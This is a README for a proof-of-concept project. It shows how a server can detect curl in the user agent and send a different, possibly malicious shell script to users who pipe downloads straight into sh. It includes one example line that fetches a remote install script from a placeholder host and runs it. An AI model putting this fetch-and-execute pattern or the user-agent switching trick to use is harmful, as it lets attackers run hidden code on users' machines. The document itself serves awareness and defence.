 pipe-to-sh Proof of Concept
===========================

Piping direct to sh from the web has its obvious dangers along with some
not so obvious hidden ones..

This project showcases a possible, non-obvious exploit which relies on
sniffing the browser's user agent string to change a served .sh file dependent
on whether or not the browser is curl/libcurl. This would allow a malicious
person to point a user to a perfectly reasonable looking .sh file while in
the background providing a different, perhaps evil, .sh file to the user
told to download via [curl/libcurl](http://curl.haxx.se/) like so:

    curl -s http://blah.com/install.sh | sh

This is a proof of concept; no damaging code is contained within.

For more on this please see the post on [djm.org.uk](http://www.djm.org.uk "Darian Moody, Python Developer, London").
